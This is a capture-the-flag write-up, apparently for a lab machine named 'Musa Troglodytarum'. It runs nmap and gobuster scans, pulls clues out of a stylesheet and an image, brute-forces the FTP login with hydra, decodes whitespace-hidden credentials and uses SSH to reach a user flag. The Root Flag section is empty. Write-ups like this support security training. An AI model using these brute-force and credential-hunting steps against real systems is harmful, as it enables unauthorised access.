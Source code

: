 # CTF: Musa Troglodytarum

![Difficulty: Medium](https://img.shields.io/badge/difficulty-medium-%23ffcc00)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP](https://img.shields.io/badge/category-ftp-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)
![alt text](img/musatroglodytarum.png)

## Description

> Le bananier des montagnes

## Write-up

UserFlag: user.txt
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results :

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-18 13:27 BST
Nmap scan report for ip-10-10-37-170.eu-west-1.compute.internal (10.10.37.170)
Host is up (0.00049s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
MAC Address: 02:F4:5E:FF:AB:3F (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

We see a open port 80. Let's check the website.

We go to the 80 port :
`http://$IP`

We have a debian default page.

We can use gobuster to find hidden directories :
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.37.170
[+] Threads:        10
[+] Wordlist:       Tools/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/18 13:29:17 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2024/05/18 13:29:23 Finished
===============================================================
```

We have a directory `/assets`. Let's check it out.

We go to the `/assets` directory :
`http://$IP/assets`

We see a directory listing :

```
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	-	 
[VID]	MusaTroglodytarum.mp4	2021-11-29 15:57	50M	 
[TXT]	style.css	2021-11-29 13:04	2.9K	 
```

We have a video file `MusaTroglodytarum.mp4`. Let's download it. And listen to it.

In the video we have a person said :
```
Ce n'est pas au bon endroit que vous êtes. Vous devez trouver chercher sur le site.
```

In the style.css file we have :
```
/* Nice to see someone checking the stylesheets.
     Take a look at the page: /<file>.php
*/
```

We have an alert said disable JavaScript. We can disable it.

We go to the `/<file>.php` page :
`http://$IP/<file>.php`

We are redirected to a folder, we see a page like this :
![alt text](img/musatroglodytarum1.png)


We can wget the file `http://$IP/<file>.php` and see the content.

We see a redirection : 
```
--2024-05-18 14:13:12--  http://10.10.37.170/<file>.php
Connecting to 10.10.37.170:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: intermediary.php?hidden_directory=/<folder> [following]
--2024-05-18 14:13:12--  http://10.10.37.170/intermediary.php?hidden_directory=/<folder>
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 302 Found
Location: /<folder> [following]
--2024-05-18 14:13:12--  http://10.10.37.170/<folder>
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://10.10.37.170/<folder>/ [following]
--2024-05-18 14:13:12--  http://10.10.37.170/<folder>/
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 200 OK
Length: 618 [text/html]
Saving to: ’<file>.php’
```

We can see the hidden directory. We can go to the hidden directory :
`http://$IP/<folder>`

We have an image `Hot_Babe.png`. We can download it.

We use `strings` to see if there is any hidden text in the image.

```bash
strings Hot_Babe.png
```

We see code of the image but at the end we have a message :
```
Eh, you've earned this. Username for FTP is banane_celeste:
One of these is the password:
- ...
````

We have the username `banane_celeste` and we can stock the password in a file and use hydra to bruteforce the password to connect to the FTP server.

```bash
hydra -l banane_celeste -P password.txt ftp://$IP
```

We have the password `banane_celeste` and we can connect to the FTP server.

We can use the following command to connect to the FTP server :
```bash
ftp $IP
```

We do `ls` to see the files in the FTP server.
```bash
ftp> ls -al
drwxr-xr-x    2 0        0            4096 Nov 29  2021 .
drwxr-xr-x    2 0        0            4096 Nov 29  2021 ..
-rw-r--r--    1 0        0             860 Nov 08  2022 Valerian's_Creds.txt
```

We have a file `Valerian's_Creds.txt`. We can download it.

We can use the following command to download the file :
```
ftp> get Valerian's_Creds.txt
ftp> bye
```

We can use `cat` to see the content of the file.

```bash
cat Valerian's_Creds.txt
```

We have a text who said :
```
Get out, there is nothing here!
```

But we can install `xxd` to see if there is any hidden text in the file.

```bash
apt-get install xxd
```

We can use `xxd` to see if there is any hidden text in the file.

```bash
xxd Valerian's_Creds.txt
```

![alt text](img/musatroglodytarum2.png)

We see `.`in the xxd output. It's space. We have a language called "whitespace". We can use an online whitespace decoder to decode the text.

We have the password of the user `Valerian`, we can use it to connect to the SSH server.

```bash
ssh Valerian@$IP
```

We have a message when we connect to the SSH server :
```
Message from Root to Gabriel:

"Gabriel, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

We can try to find in all folders for a file called `s3cr3t`.

```bash
find / -name s3cr3t 2>/dev/null
```

We have a folder, we can go to the folder.

```bash
cd /<folder>
```

We can use `ls -al` to see the files in the folder.

```bash
ls -al
```

We found an hidden file `.th1s_m3ss4ag3_15_f0r_g4br13L_0nly!`.

```bash
cat .th1s_m3ss4ag3_15_f0r_g4br13L_0nly!
```

It says the password of the user `Gabriel`. We can use it to connect to the SSH server.

```bash
ssh Gabriel@$IP
```

Go to the home directory of the user `Gabriel`.

```bash
cd /home/gabriel
```

And we can see the user flag.

### Root Flag

